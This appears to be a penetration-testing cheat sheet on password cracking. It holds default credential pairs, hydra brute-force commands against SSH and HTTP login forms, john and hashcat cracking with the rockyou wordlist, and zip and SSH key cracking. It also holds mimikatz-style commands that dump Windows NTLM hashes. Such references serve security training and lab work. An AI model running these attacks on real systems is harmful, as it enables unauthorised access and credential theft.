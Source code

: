# Password Cracking

## Default Credentials

    admin:admin admin:password root:root root:toor

## Password Attacks

Try same user, reverse user and null as password against a login for a quick check

    hydra -l USER -e nsr IP ssh -V

You can use a username wordlist as well

    hydra -L USERLIST -e nsr IP ssh -V

Burpsuite Intruder if we want to

    john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt

    sudo gzip -d rockyou.txt.gz

    hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10

    hydra -l noman -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post

    hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

    hashcat -b | hashcat.exe -b (linux and window benchmark)

customize wordlists

    head /usr/share/wordlists/rockyou.txt > demo.txt | sed -i '/^1/d' demo.txt

if we want to add 1 in all password then | 

    echo \$1 > demo.rule | hashcat -r demo.rule --stdout demo.txt

    hash-identifier (find hash if simple)

    hashid (if id is available "$2y$10$)

    ssh2john id_rsa > ssh.hash | hashcat -h | grep -i "ssh" (port22)

## Zip Cracking

    fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' chall.zip

    zip2john file.zip > zip.john
    john zip.john

## NTLM Crack

    token::elevate (check user permission) | lsadump::sam (dump all user ntlm)

Then

    hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
